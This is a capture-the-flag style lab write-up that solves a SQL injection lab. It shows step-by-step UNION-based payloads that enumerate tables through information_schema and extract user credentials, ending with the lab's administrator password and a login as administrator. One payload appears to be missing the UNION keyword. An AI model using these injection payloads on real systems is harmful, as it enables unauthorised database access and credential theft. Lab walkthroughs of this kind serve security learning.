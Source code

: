 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234173772-d674eb97-c3c0-4f6d-99b2-3628123f4f5b.png)

## Solution :

Most database types (with the notable exception of Oracle) have a set of views called the `information schema` which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```
O/P shows the columns present in it

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Steps

![image](https://user-images.githubusercontent.com/67383098/234173842-080419e3-bb62-4507-b6c2-4d30888d4ce8.png)


#### Determine te number of columns -

**ORDER BY 3**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3--
```

![image](https://user-images.githubusercontent.com/67383098/234173744-116b627a-2c8d-4651-bc3c-7ed6140df288.png)

#### Determine wich column contains text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' SELECT 'abc','def'--
```
Both the columns contain text data.

![image](https://user-images.githubusercontent.com/67383098/234236358-f0e2e77a-08de-4d4a-99a3-782ffa80f5ae.png)

### List the database contents

#### List tables -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM information_schema.tables--
```

We get list of all the available tables

![image](https://user-images.githubusercontent.com/67383098/234243537-2f93b162-2198-4cb0-b252-33830667abef.png)

![image](https://user-images.githubusercontent.com/67383098/234248758-0f64078c-cf1c-495b-a685-e4627826101b.png)


#### List columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fhlhke'--
```

We get these columns

![image](https://user-images.githubusercontent.com/67383098/234249287-a2b9687b-5454-43b2-950a-081b9d233dea.png)

columns - `username_yoqrkg` & `password_btqiad`

#### Retreive information from the columns username_yoqrkg & password_btqiad from the table users_fhlhke -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username_yoqrkg,password_btqiad FROM users_fhlhke--
```
Now we get the username and password of all users.

![image](https://user-images.githubusercontent.com/67383098/234250737-85288dcd-13a8-406b-82c7-1198ab231fb6.png)

carlos - `hfs0tq3xzvdz2awja6bn`
wiener - 7qsyjg4sbbxt16easf7l``
administrator - `a80zs35scefit206tw5s`

Now login as administrator,

![image](https://user-images.githubusercontent.com/67383098/234251558-ea8c0529-f717-43eb-8a66-507fc790501a.png)


















